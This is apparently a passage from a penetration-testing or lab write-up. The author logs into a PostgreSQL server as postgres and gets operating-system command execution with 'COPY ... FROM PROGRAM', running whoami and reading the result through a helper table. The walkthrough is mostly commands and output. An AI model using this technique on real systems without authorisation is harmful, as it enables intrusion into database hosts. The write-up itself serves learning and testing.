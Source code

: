 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~]
└─$ psql -U postgres -p 5432 -h $ip
Password for user postgres: 
psql (13.4 (Debian 13.4-3), server 9.6.23)
Type "help" for help.

postgres=# help
You are using psql, the command-line interface to PostgreSQL.
Type:  \copyright for distribution terms
       \h for help with SQL commands
       \? for help with psql commands
       \g or terminate with semicolon to execute query
       \q to quit
postgres=# 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Logging in as postgres to the PostgreSQL database is successful and with help I quickly checked some basic commands that can help me.
I copy the command drop the table “cmd_exec” if it exists and paste it into the session and hit enter. 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
postgres=# DROP TABLE IF EXISTS cmd_exec;
DROP TABLE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The table has been dropped and I copy the second command, paste it into my PostgreSQL database session and hit enter. 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The table has been successfully created after which I copy the third command and change 'id' to 'whoami', then I press enter. 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
postgres=# COPY cmd_exec FROM PROGRAM 'whoami';
COPY 1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The command was executed successfully and now I have to run a query to see the result.
The query is simple, but to avoid typos I copy it and paste it into my database session and hit enter. 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
postgres=# SELECT * FROM cmd_exec;
         cmd_output          
-----------------------------
 win-kbp5vdtn99vsvc-postgres
(1 row)

postgres=#
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 